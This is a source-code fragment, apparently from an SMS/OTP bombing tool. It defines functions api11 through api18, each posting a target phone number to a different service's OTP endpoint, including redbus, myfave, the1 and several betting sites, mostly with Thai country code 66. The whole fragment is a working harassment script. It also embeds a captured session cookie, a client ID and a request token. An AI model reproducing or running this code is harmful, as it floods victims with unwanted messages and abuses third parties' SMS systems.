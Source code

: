     

def api11(phone):

    get("https://m.redbus.id/api/getOtp?number="+phone[1:]+"&cc=66&whatsAppOpted=true",headers={"traceparent": "00-7d1f9d70ec75d3fb488d8eb2168f2731-6b243a298da767e5-01","user-agent": "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36"}).text

    

def api12(phone):

    post("https://api.myfave.com/api/fave/v3/auth",headers={"client_id": "dd7a668f74f1479aad9a653412248b62"},json={"phone":"66"+phone})

    

def api13(phone):

    post("https://samartbet.com/api/request/otp", data={"phoneNumber":phone,"token":"HFbWhpfhFIGSMVWlhcQ0JNQgAtJ3g3QT43FRpzKhsvGhoHEzo6C1sjaRh1dSxgfEt_URwOHgwabwwWKXgodXd9IBBtZShlPx9rQUNiek5tYDtfB3swTC4KUlVRX0cFWVkNElhjPXVzb3NWBSpvVzofb1ZFLi15c2YrTltsL0FpGSMVGQ9rCRsacxJcemxjajdoch8sfEhoWVlvbVEsQ0tWfhgfOGth"})

    

def api14(phone):

    post("https://www.msport1688.com/auth/send_otp", data={"phone":phone})

    

def api15(phone):

    post("http://b226.com/x/code", data={f"phone":phone})

    

def api16(phone):

    post("https://ep789bet.net/auth/send_otp", data={"phone":phone})

    

def api17(phone):

    post("https://www.berlnw.com/reservelogin",data={"p_myreserve": phone}, headers={"Host": "www.berlnw.com", "Connection": "keep-alive", "Upgrade-Insecure-Requests": "1", "Content-Type": "application/x-www-form-urlencoded", "Save-Data": "on", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Referer": "https://www.berlnw.com/myaccount", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "th-TH,th;q=0.9,en;q=0.8", "Cookie": "berlnw=s%3AaKEA2ULex-QQ7U6jr0WCQGs-Mz3eJFJn.RsAXcleV2EVFN4j%2BPqDivbqSYAta0UYtyoM65BrxuV0; _referrer_og=https%3A%2F%2Fwww.google.com%2F; _first_pageview=1; _jsuid=4035440860; _ga=GA1.2.766623232.1635154743; _gid=GA1.2.1857466267.1635154743; _gac_UA-90695720-1=1.1635154743.CjwKCAjwq9mLBhB2EiwAuYdMtU_gp7mSvFcH4kByOTGf-LsmLTGujv9qCwMi1xwWSuEiQSOlODmN-RoCMu4QAvD_BwE; _fbp=fb.1.1635154742776.771793600; _gat_gtag_UA_90695720_1=1"})

    

def api18(phone):

    post("https://the1web-api.the1.co.th/api/t1p/regis/requestOTP", json={"on":{"value":phone,"country":"66"},"type":"mobile"})

